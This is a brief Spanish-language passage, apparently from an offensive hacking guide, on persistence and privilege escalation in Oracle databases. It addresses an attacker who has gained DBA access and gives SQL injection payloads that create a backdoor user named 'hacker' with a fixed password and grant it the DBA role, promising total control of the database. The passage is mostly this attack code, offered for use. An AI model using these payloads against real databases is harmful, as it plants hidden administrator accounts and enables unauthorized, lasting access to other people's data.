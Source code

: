 ### **4. Persistencia y Escalada en Oracle**

Si logras acceso como `DBA`, puedes crear un usuario persistente:

```
'CREATE USER hacker IDENTIFIED BY 'P@ssw0rd';--
'GRANT DBA TO hacker;--
```
Esto te da control total sobre la base de datos.
